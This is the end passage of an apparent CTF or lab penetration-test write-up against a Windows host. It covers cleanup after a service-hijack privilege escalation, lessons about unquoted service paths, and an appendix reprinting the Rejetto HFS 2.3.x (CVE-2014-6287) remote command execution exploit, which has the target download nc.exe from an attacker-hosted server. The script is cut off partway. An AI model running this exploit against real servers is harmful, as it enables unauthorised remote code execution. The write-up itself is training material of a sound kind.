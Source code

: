 ## House Cleaning
For our house cleaning the did the following:
1. *del result.xt*: removal of result of the enumeration
2. *del Advanced.exe*: removal of the payload used to create a reverse shell as admin
3. *sc stop AdvancedSystemCareService9*: stopped the service that was linked to our admin shell
4. *sc start AdvancedSystemCareService9*: restarted the service, so it can be linked to the original file

# Conclusion
Lessons learned:

- Check donwload in windows *winPEAS* and *Powerup*
- Check *unquoted* services *wmic service get name,displayname,pathname,startmode | findstr /v /i "\\C:\\\\Windows"*
- Check permissions on folder *icalcs*

# Appendix A - Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution
Below there is the python script for exploitation of the vulnerability found on **http://10.10.232.126:8080/**. This script was adapted to our context:

```
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux.

#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "ATTACKING-MACHINE" #local IP address
	local_port = "47555" # Local Port number
```